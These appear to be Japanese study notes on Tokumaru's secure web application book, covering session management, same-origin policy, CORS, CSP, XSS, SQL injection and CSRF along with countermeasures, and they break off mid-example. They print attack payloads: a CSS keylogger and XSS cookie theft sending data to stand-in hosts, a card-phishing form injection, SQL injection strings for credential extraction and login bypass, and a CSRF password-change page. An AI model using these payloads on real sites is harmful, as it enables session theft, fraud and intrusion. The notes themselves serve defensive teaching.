


# 『体系的に学ぶ安全なWebアプリケーションの作り方』(徳丸浩)

# Webアプリケーションの脆弱性とは

脆弱性とは悪用できるバグ（セキュリティバグ）のこと。
単に遅いとか、計算結果を間違えるとかは普通のバグ。

悪用できるバグの例

* 個人情報などの秘密情報を閲覧する
* Webサイトの内容を書き換える
* 他人に成り済まして買い物をする

# 脆弱性の問題点

## 経済的損失
* 利用者が受けた被害の補償
* 迷惑料
* Webサイト停止による機会損失
* 信用失墜による売り上げの減少

## 法的な要求
個人情報保護法
5000件を越える個人情報を保持する事業者は個人情報取り扱い事業者として安全管理措置を講じる義務がある。

### 2015/9/4 個人情報保護法の改正 2017/5/30施行
* 欧州連合レベルに合わせるため
*「5000件を越える」が撤廃される
    * 小規模事業者の事業活動が円滑に行われるよう配慮
* [個人情報の保護に関するガイドライン](http://www.meti.go.jp/policy/it_policy/privacy/downloadfiles/161228kojoguideline.pdf)
* 個人識別符号の定義

### 2018/5/4 EUでGDPR(一般データ保護規則 : General Data Protection Regulation)施行
[富士通マーケティング 欧州連合における個人情報保護の枠組みGDPR、その現状と対策のポイント](http://www.fujitsu.com/jp/group/fjm/mikata/column/sawa2/001.html)

* 適切なプライバシーポリシーの提供(明示的な同意など)
* 忘れられる権利
* データ・ポータビリティの権利(別のサービスに移動したいと言われれば対応しないといけない)
* プロファイリングの拒否

* EUを含む欧州経済領域(EEA)内の個人情報を扱う全ての企業、団体、機関が対象
* 原則、EUにある支店から日本の本店に情報を移転できない
    * EUのデータ保護機関から承認を得る
* 違反すると全世界年間売り上げの4%以下または2000万ユーロ(1ユーロ=130円なら26億円)以下の高い方
* 情報漏洩したときに当局へ報告しない、本人の求めに応じた個人情報の訂正をしない場合も制裁の対象となるかも

## 利用者が回復不可能なダメージを受ける場合が多い
## ボットネットワーク構築に加担する
* DOS攻撃に加担
* 仮想通貨のマイニングをさせるマルウェア

# HTTPとセッション管理

## GETとPOSTの使い分け
ガイドライン
* GETはリソースの取得のみに用いる
* GETは副作用がないことが期待される(巾等性：複数回操作しても1回操作したのと同じ結果になること)
* 秘密情報の送信はPOSTを用いる
    * GETを使うとURL上に指定されたパラメータがReferer経由で外部に漏洩する
    * URL上に指定されたパラメータがアクセスログに残る
    * ブラウザに表示されたURL上のパラメータを他人に見られる
    * パラメータつきURLをSNSなどで共有してしまう

## hiddenパラメータ
HTTPはステートレス（状態を持たない）ためクライアントの情報はhiddenパラメータに記録する
* ブラウザから送信する値は（利用者自身が）書き換えられる
    * 認証、認可に関する情報はセッション変数に保存すべき
* 情報漏洩や第三者の改竄には堅牢
    * ログイン前の状態の情報はhiddenパラメータを使う

## 認証と認可
* 認証（Authentication）: 利用者が本人であることを確認する
* 認可（Authorization） : 認証された利用者に権限を与える

## クッキーとセッション管理

* セッション管理
    * ログイン後にアプリケーションの状態を覚えておくこと
* セッション管理のためにクッキー(整理番号)を使う
    * クッキーが保持できるデータは大きくないため実際のデータは別途サーバ側で管理する
    * 利用者本人は参照・書き換えができるので秘密情報の格納には向かない

* サーバがセッションIDを生成し`Set-Cookie:`でブラウザに記憶させるよう通達する
* ブラウザはサーバにアクセスするときそのクッキーの値をサーバに送る

### クッキーの要件
* 第三者がセッションIDを推測できないこと
    * 暗号論的擬似乱数生成器を用いてセッションIDを作る
    * Webアプリケーション開発ツールが提供するセッション管理ライブラリを用いる
* 第三者からセッションIDを強制されないこと
    * 認証後にセッションIDを変更すること
    * しないとセッションIDの固定化攻撃がある
        * 攻撃者→サーバ
        * サーバはIDを攻撃者に発行
        * ユーザがサーバにつなごうとしたところで攻撃者がIDをユーザに渡す
        * ユーザはそのIDで認証する
        * ユーザが認証後、攻撃者はサーバにそのIDを使って操作する
    * 認証後にセッションIDが変更された場合
        * ユーザがIDで認証したときにサーバが新しいID'を発行するので攻撃者はその後IDを使えない
* 第三者にセッションIDが漏洩しないこと
    * クッキー発行の属性に不備がある
    * ネットワークが盗聴される(SSLを使うこと)
    * XSSなどの脆弱性
    * PHPやブラウザなどのプラットフォームの脆弱性
    * セッションIDをURLに保持するとRefererヘッダから漏洩する可能性

### クッキーの属性
* domain属性は設定しないのが一番攻撃範囲が狭い
    * 設定しないとクッキーをセットしたサーバのみに送信される
    * 不用意に範囲を広げると意図しないサーバにも送信されてしまう
* secure属性をつけるとSSLのときのみ送信される
* httpOnlyをつけるとJavaScriptで読めない

# 受動的攻撃と同一生成元ポリシー

## 能動的攻撃と受動的攻撃

### 能動的攻撃
攻撃者がサーバを直接攻撃する

例:SQLインジェクション

### 受動的攻撃
攻撃者がサーバの利用者に罠を仕掛けて間接的にサーバを攻撃する

* 単純な受動的攻撃
    * 怪しいサイトを閲覧して(ブラウザなどの脆弱性により)マルウェアに感染する
* 正規サイトを悪用する受動的攻撃
    * 攻撃者→サイト ; コンテンツに罠をしかける
    * 利用者→サイト ; 罠が発動して攻撃を受ける
* サイトをまたがった受動的攻撃(XSS, CSRFなど)
    * 利用者→罠サイト ; 罠を含むコンテンツを取得
    * 攻撃者→正規サイト ; 罠が発動して不正操作をする

### 攻撃側にとっての受動的攻撃のメリット
* 罠サイトに誘導する必要がない
    * ユーザは自ら正規サイトにアクセスしてくる
* 正規サイトは利用者が多いので被害が拡大しやすい
* 正規サイトの機能を不正利用しやすい
* 正規サイトの個人情報を盗みやすい

### 正規サイトに罠を仕込む方法
* サイトのパスワードを不正入手して書き換える
* Webサーバの脆弱性をついた攻撃
* SQLインジェクション攻撃
* SNSのXSS脆弱性

## ブラウザ側の対策

### サンドボックス
ブラウザ内部でJavaScriptができることを制限する
* ローカルファイルへのアクセス禁止
* プリンタなどの資源の利用禁止
* ネットワークアクセスの制限(同一生成元ポリシー)

### 同一オリジンとは
* スキーム(プロトコル) + URLのホスト(FQDN) + ポート番号が一致している

### iframe
* iframeを使うとHTML(外)の中に別のHTML(内)を埋め込める
* (外)と(内)のホストが同一ならJavaScriptを用いて(外)から(内)のデータにアクセスできる
* 同一生成元ポリシーがないと罠HTML(外)の中にiframeで正規のHTML(内)を埋めると、(内)の秘密情報にアクセスできてしまう
* XMLHttpRequestでアクセスできるURLも同じ制約がある
    * 相手の許可があれば同一オリジンでなくても通信できる規格CORS(後述)

### アプリの脆弱性と受動攻撃
* XSSがあると同一生成元ポリシーが回避されることがある
* iframeの内側にJavaScriptを送り込み、それが(内)の情報を取得する(XSS攻撃)

### 第三者のJavaScript
* サイト運営者が第三者を信頼して実行するJavaScript
    * アクセス解析、バナー広告、ブログパーツなど
    * 提供元が意図的に個人情報を収集する可能性
    * 脆弱性によりJavaScriptが差し替えられる可能性
    * 提供されたJavaScriptの脆弱性

### X-Frame-Options
* クリックジャック攻撃対策
* クリックジャック攻撃
ページの要素を隠蔽・偽装してクリックを誘って利用者の意図しない動作をさせようとする攻撃

* X-Frame-Optionsに設定可能な値
    * DENY ; ページをフレーム内に表示できない
    * SAMEORIGIN ; 自分と生成元が同じフレームに限りページを表示可能
    * ALLOW-FROM uri ; 指定された生成元に限りページを表示可能

### JavaScript以外のクロスドメインアクセス
* img要素
    * img要素のsrc属性はクロスドメイン可能
    * 意図しないサイトに画像が貼られるのを禁止したいならRefererをチェックする方法がある
        * Refererをオフにしてると見えなくなる
* script要素
    * script要素のsrc属性はクロスドメイン可能
    * サイトAからサイトBのJavaScriptを読むときBに対するクッキーが送信される
        * サイトBはその情報を使って応答を変えられる
        * JSONPでは公開情報のみを提供するようにすべき
* CSS
    * クロスドメインで読み込み可能

### [no-csp-css-keylogger.badsite.io](https://no-csp-css-keylogger.badsite.io/)
CSSを使ってkeyloggerを実現する

基本アイデアinputタグのvalueの値に応じて読み込むバックグラウンドイメージのURLを変える
```
<style>
input[value=" "] { background-image: url("//keylogger.badsite.io/+"); }
input[value$="  "] { background-image: url("//keylogger.badsite.io/++"); }
input[value$=" !"] { background-image: url("//keylogger.badsite.io/+%21"); }
input[value$=" \""] { background-image: url("//keylogger.badsite.io/+%22"); }
...

input[value$="~|"] { background-image: url("//keylogger.badsite.io/%7E%7C"); }
input[value$="~}"] { background-image: url("//keylogger.badsite.io/%7E%7D"); }
input[value$="~~"] { background-image: url("//keylogger.badsite.io/%7E%7E"); }
</style>
```
keylogger.badsite.ioでアクセスを見て入力文字を知る

# オリジン間リソース共有（[CORS:Cross-Origin Resource Sharing](https://developer.mozilla.org/ja/docs/Web/HTTP/HTTP_access_control)）
* 同一生成元ポリシーは安全だけど窮屈なこともしばしば
    * ``, `<video>`, `<audio>`などは異なるオリジンに埋め込める
    * XMLHttpRequestやFetch APIは同一生成元ポリシーに従う
* CORSはクライアントが現在のサイトとは別のドメインのリソースにアクセスする権限を得られる仕組み
* 2014にW3C勧告
* ブラウザはオリジン間HTTPリクエストを発行する

## 簡単な例
* `http://sample1.com`のコンテンツがXMLHttpRequestを用いて`http://sample2.com`のコンテンツを取得したい
* ブラウザはGETメソッドに`Origin: http://sample1.com`を追加して送信
* サーバは`Access-Control-Allow-Origin: *`を返答
* ブラウザは`http://sample1.com`のコンテンツを取得可能

### ドメイン制限

* `Access-Control-Allow-Origin: <origin>`とすると`<origin>`のURIのみアクセスしてよい

### ブラウザのJavaScriptの例
```
fetch('http://sample2.com', {
  mode: 'cors'
}).then(...)
```

### サーバの動作
* クライアントから送られた`Origin: <origin>`の`<origin>`を確認して問題なければ
```
Access-Control-Allow-Origin: <origin>
```
というヘッダを追加する

### 認証を含むリクエスト(第2版)
クロスオリジンに対するリクエストには認証に用いられるヘッダは送信されない

* クライアント側
```
fetch('http://sample2.com', {
  credentials: 'include'
}).then(...)
```
これでクッキーが送信される(デフォルトはsame-origin)

* サーバ側
`Access-Control-Allow-Credentials: true`というヘッダを追加する


# [CSP(Content Security Policy)](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)

* XSSなどの攻撃対策の一つ
* サーバが`Content-Security-Policy`ヘッダを返すことでCSPが有効になる
    * ブラウザの挙動を制限する
    * 実行を許可するスクリプトのドメインを指定
        * 全てのスクリプトの実行を拒否することも可能
    * 通信プロトコルの指定
        * 全てのコンテンツをHTTPSのみにする
        * 全てのCookieにsecureフラグをつける
        * HTTPからHTTPSへのリダイレクト
        * 暗号化された通信路のみを用いるようにする

## ポリシーの設定
```
Content-Security-Policy: <policy-derective>
```

### 全てのコンテンツを自身のサイト(サブドメインは含まない)からのみ取得可能にする
```
Content-Security-Policy: default-src 'self'
```

* `<script>コード</script>`は禁止される
    * `unsafe-inline`で許可
* `<script src="自身と同じURI"></script>`のみOK
* eval禁止
    * `unsafe-eval`をつけると許可


### 自身のサイトと信頼された別のドメインを指定
```
Content-Security-Policy: default-src 'self' *.trusted.com
```

### スクリプト、メディア、画像をそれぞれ指定する(本当は一行)
```
Content-Security-Policy: default-src 'self';
  img-src *;
  media-src media1.com media2.com;
  script-src trusted.com
```
img画像は任意, メディアはmedia1.com, media2.comのみ, スクリプトはtrusted.comのみ

### スクリプトをHTTPSのドメインにのみ制限
```
Content-Security-Policy: default-src https://trusted.com
```

# 4 Webアプリケーションの機能別に見るセキュリティバグ

## 脆弱性の発生場所

### Webアプリケーションの機能

```
ブラウザ
↓
HTTPリクエスト
↓
入力値検証
↓
├ブラウザ ; XSS, HTTPヘッダインジェクション
├RDB      ; SQLインジェクション
├シェル   ; OSコマンドインジェクション
├メール   ; メールヘッダインジェクション
├ファイル ; ディレクトリトラバーサル
```

### インジェクション系脆弱性

脆弱性名                     | インタフェース | 悪用手口                | データの終端
-----------------------------|----------------|-------------------------|-------------
XSS                          |HTML            |JavaScript               | <"
HTTPヘッダインジェクション   |HTTP            |HTTPレスポンスヘッダ     | 改行
SQLインジェクション          |SQL             |SQL命令の注入            | '
OSコマンドインジェクション   |シェルスクリプト|コマンドの注入           | ;|
メールヘッダインジェクション |sendmailコマンド|ヘッダや本文の注入・改変 | 改行

## 入力処理とセキュリティ

Webアプリケーションの入力とはHTTPリクエストとして渡されるパラメータ

### 入力処理

* 文字エンコーディングの妥当性検証
    * 文字コードを使った攻撃手法がある
    * 最近はUTF-8のみにしてしまうことが多い
* 文字エンコーディングの変換
    * cp932(Shift_JIS))をUTF-8に変換する
* パラメータ文字列の妥当性検証

## 4-2 入力処理とセキュリティ

### 目的
利用者の入力ミスや、データの不整合を防いでシステムの信頼性を向上させる

* 数値のみの項目に英字や記号が入っていないか
* 長すぎるデータ・とても未来の日付
* 更新処理の途中でエラーになっていないか
* 入力者が多数の項目を入力してからエラーになって全部やり直すのは辛い
* パスワード未入力なのにメール送信処理を実行する

セキュリティに対する根本対策ではない(セーフティネットの一つではある)

### バイナリセーフ
* 値0の1byte(ヌルバイト)を含むデータ列を安全に処理できること
* ヌルバイトはCで特別扱いされるため正しく処理できないことが多いため
* 入力値にヌルバイトが含まれていればエラーにする(全ての文字を許容する仕様だと使えない)

### 入力検証対象のパラメータ
* 全てのパラメータ(hiddenパラメータ、ラジオボタン、select要素、クッキーの値など)

## 4-3 表示処理に伴う問題
Webアプリケーションに外部からの入力に応じて表示が変化する部分があり、
そのHTML生成の実装に問題があるとXSSが発生する

* ブラウザ上で攻撃者が用意したスクリプトが実行されてクッキーを盗まれる
* ブラウザ上で攻撃者が用意したスクリプトが実行されてWebアプリの機能を悪用される
* Webサイトに偽の入力フォームが表示されてフィッシングの被害を受ける

### XSSによるクッキー値の表示
PHPの例
```
<?php echo $_GET['keyword']; ?>
```
に
```
keyword=<script>alert(document.cookie)</script>
```
を指定するとセッションIDが表示される

### 受動的攻撃により他人のクッキー値を盗む
罠サイト(`http://trap.com/`)の中にiframeで標的サイト(`http://target.com/`))のページを表示させる
```
<html><body>
<iframe src="http://target.com/?keyword=<script>window.location='http://trap.com/?id='%2Bdocument.cookie</script>">
</iframe>
</body></html>
```

* このサイトに攻撃者を誘導する
* iframeの中でkeyword以下の次のスクリプトが実行される
```
<script>
window.location='http://trap.com/?id='+document.cookie
</script>
```

* `http://trap.com/?id=セッションID`に遷移してtrap.comにログが残る

### JavaScriptを使わないXSSの例
ログイン機能の無いサイトのXSS脆弱性の悪用

* XSS脆弱性がある粗大ゴミ受け付けサイト(target.com)
```
<form method="POST">
氏名<input name="name" value="<?php echo @$_POST['name']; ?>">
<input type=submit value="申し込み">
</form>
```
* このサイトを利用して罠サイトを作成する

```
<html><body>
<form action="https://target.com/" method="POST">
<input name="name" type="hideen" value='"></form><form style=... action=http://trap.com method=POST>
カード番号<input name=card><input value=申し込み type=submit></form>'>

<input style=... type="submit" value="粗大ゴミ申し込み">
</form>
</body></html>
```

* これは粗大ゴミ申し込みサイトへのリンクに見える
* クリックすると`https://target.com`のサイトに移動する
* 元のフォームが隠されて新しい`form`が開始する
```
<form style=... action=http://trap.com method=POST>
カード番号<input name=card>
<input value=申し込み type=submit>
</form>
```
* styleにより元のフォームを隠してactionのURLに罠サイト(`http://trap.com`)を指定する

### 反射型XSSと持続型XSS
* 反射型(reflected)XSS 攻撃用JavaScriptが攻撃対象サイトとは別のサイトにある場合
    * 入力値をそのまま表示するページで発生することが多い
    * 罠サイトへの誘導が必要
* 持続型(stored/persistent)XSS
    * 攻撃用JavaScriptが攻撃対象のデータベースなどに保存される場合
    * WebメールやSNSなどで発生しやすい
    * 罠サイトへの誘導が不要で攻撃しやすい
* DOMベースXSS
    * サーバを経由せずにJavaScriptのみで表示しているパラメータがあるページに発生する

### 脆弱性が生まれる原因

* HTML生成のときにメタ文字を正しく扱わないため
* メタ文字を文字そのものとして扱うエスケープ処理が必要

エスケープ方法

置かれている場所|解釈されるもの |終端文字|エスケープ方法
----------------|---------------|--------|--------------------------------------
要素内容        |タグと文字参照 |  <     |<と&を文字参照にする
属性値          |文字参照       |  "     |属性値を"で囲み<と"と&を文字参照にする

### 引用符で囲まない属性値のXSS

```
<input type=text name=mail value=<?php echo $_GET['p']; ?>>
```

* `p`に`1+onmouseover%3dalert(document.cookie)`を与える
* 上記inputは次のように展開される

```
<input type=text name=mail value=1 onmouseover=alert(document.cookie)>
```
* 属性値を引用符で囲まないと空白スペースが属性値の終わりになる
* 空白を挟んで属性値を追加できる

### 引用符で囲っていても"をエスケープしないとXSS
```
<input type="text" name="mail" value="<?php echo $_GET['p']; ?>">
```
* `p`に"+onmouseover%3d"alert(document.cookie)`を与える
* 上記inputは次のように展開される
```
<input type="text" name="mail" value="" onmouseover="alert(document.cookie)">
```

### 対策
再掲
* 要素内容は「<」と「&」をエスケープする
* 属性値は""でくくって「<」と「"」と「&」をエスケープする
* (エンコーディング)`Content-Type: text/html; charset=UTF-8'`で文字エンコーディングを固定する

## 発展編
```
<html>
<body onload="init('xxx')">
<form ...>
<input name="tel" value="012-345-6789">
<input type="submit">
</form>
<a href="http://sample.com">xxx</a>
<p>
text
<p>
<script>
document.write('xxx')
</script>
</form>
</html>
```

置かれている場所            |解釈されるもの |終端文字|エスケープ方法
----------------------------|---------------|--------|--------------------------------------
要素内容                    |タグと文字参照 |  <     |<と&を文字参照にする
属性値                      |文字参照       |  "     |属性値を"で囲み<と"と&を文字参照にする
属性値(URL)                 |同上           |同上    |URLの形式を検査してから属性値としてエスケープ
イベントハンドラ            |同上           |同上    |JavaScriptとしてエスケープしてから属性値としてエスケープ
script要素内の文字列リテラル|解釈されない   |</      |JavaScriptとしてエスケープし「</」が出ないように配慮

## href属性やsrc属性のXSS
* a要素のhref属性, img要素, frame要素のsrc属性などはURLを属性値としてとる
* このURLには`javascript:JavaScript式`を指定してJavaScriptを起動できる

```
<body>
<a href="<?php echo htmlspecialchars($_GET['url']); ?>">bookmark</a>
</body>
```
を`http://trap.com/?url=javascript:alert(document.cookie)`で起動すると

```
<body>
<a href="javascript:alert(document.cookie)">bookmark</a>
</body>
```
になる. このリンクを選択するとJavaScriptが起動する

### URLを生成する場合の対策
* httpまたはhttpsスキームのみを許可するようにチェックする
* `http:`または`https:`または`/`で始まる相対URLしか許容しない

### リンク先ドメインのチェック
* リンク先ドメインが外部ドメインならエラーにする
* または 外部ドメインへのリンクであることを利用者に注意喚起する

## JavaScriptの動的生成

### イベントハンドラのXSS
XSSがある例(JavaScriptの文字列リテラルのエスケープが抜けている)
```
<body onload="init('<?php echo htmlspecialchars($_GET['name'], ENT_QUOTES) ?>')">
</body>
```
`name=');alert(document.cookie)//`を渡して起動すると
```
<body onload="init('&#039;);alert(document.cookie)//')">
```
となる. onloadイベントハンドラは属性値の文字列参照を解釈するので
```
init('');alert(document.cookie)//')
```
が実行される

* データをJavaScript文字列リテラルとしてエスケープする
    * \ → \\\\
    * ' → \\'
    * " → \\"
    * 改行 → \n
* その結果をHTMLエスケープする

先ほどの場合は`name=\';alert(document.cookie)//`を渡すので

```
<body onload="init('\&#039;);alert(document.cookie)//')">
```
となる. onloadイベントハンドラは
```
init('\');alert(document.cookie)//')
```
と解釈される(多分エラー)

### script要素のXSS
* script要素内はタグや文字参照を解釈しないのでHTMLとしてのエスケープは不要
* JavaScriptの文字列リテラルとしてエスケープ
* が、これだけでは不十分
```
<?php
/* 「\」,「'」, 「"」の前に「\」を挿入してJavaScript文字列としてエスケープ */
function escape_js($s) {
  return mb_ereg_replace('([\\\\\'"])', '\\\1', $s);
}
?>
<body>
<script src="jquery.js"></script>
こんにちは<span id="name"></span>さん
<script>
  $('#name').text('<?php echo escape_js($_GET['name']); ?>');
</script>
</body>
```

JavaScriptは文脈を見ずに`</script>`がでると終わる
```
<script>
  foo('</script>')
</script>
```
この例では`foo('`が実行される(そしてエラー)

* `</script><script>alert(document.cookie)//`を渡すと
```
<script>
  </script><script>alert(document.cookie)//
</script>
```
となってXSSが成功する

* 生成するJavaScriptに`</`が入らないように気を付ける

### まとめ
* JavaScriptの文法から「"」「'」「\」「改行」の前に「\」を入れる
* イベントハンドラの場合は文字参照をHTMLエスケープして「"」で囲む
* script要素の場合は「</」が出ないようにする

ルールが複雑なためJavaScriptの動的生成はしない

それでも動的パラメータをJavaScriptに渡したい場合

### Unicodeエスケープ
英数字と「-」「.」以外を全て\uXXXXという形に変換する

### script要素の外部でパラメータを定義してJavaScriptから参照する
hiddenパラメータを利用して動的生成をさける

```
<input type="hidden" id="js_name" value="<?php echo htmlspecialchars($name, ENT_COMPAT, 'UTF-8'); ?>">
<script>
const name = document.getElementById('js_name').value
...
</script>
```
属性値のエスケープの原則だけ守ればよいのでルールがシンプルになる

## DOMベースXSS
JavaScriptのクライアント側での処理の問題(サーバで生成したHTMLには攻撃者の注入したJavaScriptは現れない)
```
<body>
こんにちは
<script>
document.URL.match(/name=([^&]*)/)
document.write(unescape(RegExp.$1))
</script>
</body>
```
はクエリー文字`name=`に指定した名前を表示する

```
http://sample.com/?name=<script>alert(document.cookie)</script>
```
はJavaScriptが実行される

# SQL呼び出しに伴う脆弱性

## SQLインジェクション

SQLインジェクション : SQLの呼び出し方に不備がある場合に発生する脆弱性

## 想定される影響
* データベース(以下DB)内の情報が盗まれる
* DBの内容が書き換えられる
* 認証を回避される
* DB上のファイルの読み書き、プログラムの実行など

SQLインジェクションは絶対に起こらないようにする必要がある

対策 : 静的プレースホルダを利用してSQLを呼び出す

## エラーメッセージ経由の情報漏洩

```
<?php
$author = $_GET['author'];
$con = pg_connect(...)
$sqlstm = "SELECT id, title, author, publisher, date, price FROM books WHERE author = '$author' ORDER BY id";
...
```
このページを
```
http://sample.com/?author='+and+cast((select+id||':'||pwd+from+users+offset+0+limit+1)+as+integer)>1--
```
でアクセスすると
```
WHERE author = '' and cast((select id||':'||pwd from users offset 0 limit 1) as integer)...
```
というSQLになる。これは表の先頭のidとpwdを':'で連結して文字列にしてintegerにしようとしてエラーになる。
その結果

```
Warning pg_query()...入力構文が無効です:"yamada:pass1" in...
```
とエラーメッセージの中にパスワードが表示される。

エラーメッセージに内部的なエラー内容を含ませないようにする。

## UNION SELECTを用いた情報漏洩

UNION SELECTは2個のSQL文の結果の和集合を求める演算
先ほどのページを

```
http://sample.com?author='+union+select+id,pwd,name,addr,null,null,null+from+users--
```
でアクセスすると(本のID, タイトル, 著者名, 出版社)のところに(ユーザID, パスワード, 名前, 住所)が表示されてしまう。

UNION SELECTによる攻撃は一度に大量の情報が漏洩させられる可能性がある。

## SQLインジェクションによる認証回避

ログイン画面

```
<form action="login.php" method="POST">
  ユーザ名<input type="text" name="id"><br>
  パスワード<input type="text" name="pwd"><br>
  <input type="submit" value="ログイン">
</form>
```

ログイン処理

```
<?php
  session_start();
  $id = @$_POST['id'];
  $pwd = @$_POST['pwd'];
  $con = pg_connect8"...");
  $sql = "SELECT * FROM users WHERE id='$id' and pwd = '$pwd'";
  $rs = pg_query($con, "sql);
?>

...
if (pg_num_rows($rs) > 0) {... SELECTの結果が空でなければログイン成功
```

パスワードを`' or 'a'='a`にするとSQLは

```
SELECT * FROM users WHERE id='$id' and pwd = '' or 'a'='a'
```
となりWHERE句がtrueとなりログインできる

## SQLインジェクション攻撃によるデータ改竄

```
http://sample.com/?author=';update+books+set+title%3D'<>cracked!</i>'+where+id%3d'1001'--
```

次のSQLが実行される

```
SELECT * FROM books WHERE author=''; update books set title='<i>craced!</i>' where id='1001'--'ORDER BY id
```

## その他の攻撃
SQLの拡張機能でOSのコマンド実行やファイルの読み書きなどができることもある。


# 脆弱性の原因

開発者の意図しない形にSQL文が改変されることで発生する。

## 文字列リテラルの問題
ルール
* SQLの文字列リテラルはシングルクォート'で文字列を囲む。
* 文字列の中にシングルクォートを入れる場合はシングルクォートを重ねる。

「O'Reilly」は「'O''Reilly'」になる。

シングルクォートの処理を忘れると

```
SELECT * FROM books WHERE author='O'Reilly'
```

となる。`author='O'`で終わって残りの`Reilly'`でエラー。
この部分がSQL文として意味があると攻撃になる。

## 数値項目

```
SELECT * FROM employees WHERE age < $age
```

の`$age`に`1;DELETE FROM employees`が入ると

```
SELECT * FROM employees WHERE age < 1;DELETE FROM employees
```

となり;の後ろが実行される。

# 対策

SQL文を組み立てるときにSQL文の変更を防ぐ
* プレースホルダでSQL文を組み立てる
* リテラルを正しく構成してSQL文が変更されないようにする

二つ目は難しいので一つ目で行うのがよい。

```
SELECT * FROM books WHERE author = ? ORDER BY id
```

?を使ってSQL文を組み立てる。

* 静的プレースホルダ
    * 値のバインドをDB側で行う
    * プレースホルダの状態でSQL文がコンパイルされるので後からSQL文が変更されることはない
* 動的プレースホルダ
    * SQLを呼び出すライブラリが適切にバインドしてSQLを構成する
    * ライブラリにバグがなければ安全

## LIKE述語とワイルドカード

LIKE述語の検索パターン
* `_`は任意の一文字にマッチ
* `%`はゼロ個以上の任意の文字列にマッチ

LIEK述語ではこれらのワイルドカード文字をエスケープする必要がある

SQLインジェクションではないが忘れると攻撃される可能性がある

```
WHERE name LIKE '%山田%'
```

## プレースホルダを用いた処理

### 検索条件が動的に変わる場合

「?」を含んだSQL文を文字列連結で動的に生成し、実パラメータをSQL呼び出しのときにバインドすると安全

### 様々な条件でのソート

ORDER BY句で列をソートする場合、

```
SELECT * FROM books ORDER BY $row
```

とすると`$row`に`cast((select id||':'||pwd FROM users limit 1) as integer)`が入ると攻撃される。

```
ERROR: 型intgerの入力構文が無効です: "yamada:pass1"
```

対策 : 指定可能な列名かどうかを確認してORDER BY句を組み立てる

## SQLインジェクションの保険的対策

ミドルウェアに脆弱性があった場合に攻撃の被害を低減する対策

* 詳細なエラーメッセージの抑止
    * SQLのエラー表示は攻撃者に情報を提供しやすい
* 入力値の妥当性検証
    * 数値しか入らない場合は数値のみであることをチェック
* DBの権限設定
    * アプリを実現する必要最小限の権限のみをDBに与える

# 重要な処理の際に混入する脆弱性

ここではログインした利用者が取り消しできない処理のことを重要な処理と呼ぶ。
特定副作用と呼ばれることもある。

重要な処理に脆弱性があるとクロスサイト・リクエストフォージェリ(CSRF:Cross-Site Request Forgeries)脆弱性の可能性がある。

## CSRF
* 重要な処理では利用者の意図した操作であることを確認する必要がある。
* 確認処理が抜けると意図せずに実行されることがある。

### 例
利用者のアカウントによる
* 物品の購入
* 退会処理
* 掲示板への書き込み
* パスワードやパスワードの変更

### パスワード変更画面でのCSRF攻撃

```
// パスワード入力画面
<?php
  session_start();
  // ログイン確認
  ...
?>
<body>
  <form action="change.php" method="POST">
  新しいパスワード<input name="pwd" type="password"><br>
  <input type="submit" value="パスワード変更">
  </form>
</body>
```

```
// change.php
<?php
  session_start();
  $id = @$_SESSION['id']; // ユーザIDの取り出し
  // ログイン確認
  ...
  $pwd = $_POST['pwd']; // パスワード取得
  // ユーザ$idのパスワードを$pwdに変更する
```

パスワードが変更される条件

* POSTメソッドでchange.phpがリクエストされる
* ログイン状態である
* POSTパラメータにpwdとしてパスワードが指定される

CSRF攻撃

```
// attack.html
<body onload="document.forms[0].submit()">
  <form action="change.php" method="POST">
    <input type="hidden" name="pwd" value="cracked">
  </form>
</body>
```

* ユーザが正規のサイト(target.jp)にログインしている
* 攻撃者の誘導でユーザがattack.htmlを閲覧する
    * iframeを用いて外側に罠サイト, 内側にtarget.jpを非表示で入れる
    * 外側から内側の情報を取得することはできない
* 罠のJavaScriptがtarget.jpからchange.phpにパスワード変更リクエストをPOSTする
    * 攻撃対象サイトのセッションIDが付与されている
* パスワードが変更される

## CSRFとXSSの比較




* CSRFよりXSSの方が攻撃範囲が広い
* CSRFは設計段階から対策が必要

## 確認画面がある場合のCSRF攻撃

確認画面から実行画面へのデータの渡し方
* hiddenパラメータを使う
* セッション変数を使う

### hiddenパラメータを使う場合

```
// 入力画面
[パスワード]
    [確認]

      ↓ POST
         // <input type="text" name="pwd" value="pass1">

// 確認画面
[パスワード]
    [変更]

      ↓ hiddenパラメータ
         // <input type="hidden" name="pwd" value="pass1">

// 実行画面
パスワードを変更しました

```
* 実行画面が入力としてパスワードを受け取っている
* この場合のCSRF攻撃は確認画面がない場合と同じ

## セッション変数でパラメータを受け渡ししている場合

```
// 入力画面
[パスワード]
    [確認]

      ↓ POST
         // <input type="text" name="pwd" value="pass1">

// 確認画面
[パスワード] // パスワードをセッション変数に保存
    [変更]   // $_SESSION['pwd'] = $_POST['pwd']

      ↓ // セッション変数からパスワードを取り出す
         // $pwd = $_SESSION['pwd']
```

2段階の攻撃が必要

* 確認画面に対してパスワードをPOSTしてセッション変数にパスワードをセットする
* タイミングをみて実行画面を呼び出す

### iframeを使う方法

```
罠サイト
カモフラージュ用コンテンツ

ifram1(即時呼び出し)
┌─────┐
│確認画面に│
│psをPOST  │
└─────┘

ifram2(10秒後に呼び出し)
┌─────┐
│実行画面を│
│呼び出す  │
└─────┘
```
* 罠サイトの閲覧と同時にiframe1を呼び出し確認画面にpsをPOST
* セッション変数にpsが設定される
* 10秒後にCSRF攻撃

### ファイルアップロードフォームでのCSRF攻撃(第2版)
* HTMLフォームからのファイルアップロードはファイル名やファイルの中身をHTMLから指定できない
* しかし攻撃は可能

アップロードされたファイルを受け取り画像として表示する

```
<?php
  session_start();
  // login処理
?><body>
<form action="upload.php" method="post" enctype="multipart/form-data">
  ファイル:<input type="file" name="imgfile" size="20"><br>
  <input type="submit" value="upload">
</form>
</body>
```

```
<?php
 function ex($s) { echo htmlspecialchars($s, ENT_COMPAT, 'UTF-8'); }
 session_start();
